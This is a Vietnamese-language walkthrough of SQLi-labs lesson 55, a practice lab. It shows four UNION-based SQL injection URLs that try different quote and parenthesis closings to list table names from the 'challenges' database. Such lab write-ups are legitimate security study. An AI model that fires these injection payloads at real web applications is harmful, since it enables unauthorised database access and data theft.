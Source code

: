 # Những việc làm được với lesson-55
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-55

![](../images/lesson55/screen_9.png)

Bài này yêu cầu giống bài 54 ta chỉ việc đi tìm cấu trúc của nó Và kết hợp cùng với union luôn. Và ta có được 14 lần thử  

- Lần 1 : Không thành công 
```
192.168.80.225/sqli-labs/Less-55/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

- Lần thứ 2: 
```
192.168.80.225/sqli-labs/Less-55/?id=0')) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson55/screen.png)

- Lần thứ 3: 
```
192.168.80.225/sqli-labs/Less-55/?id=0" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson55/screen_1.png)

- Lần thứ 4: 
```
192.168.80.225/sqli-labs/Less-55/?id=0) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson55/screen_2.png)

Tìm được cấu trúc và đồng thời show được tên table của DB `challenges` Tương tự như thế ta làm giống bài 54 để nhận được kết quả 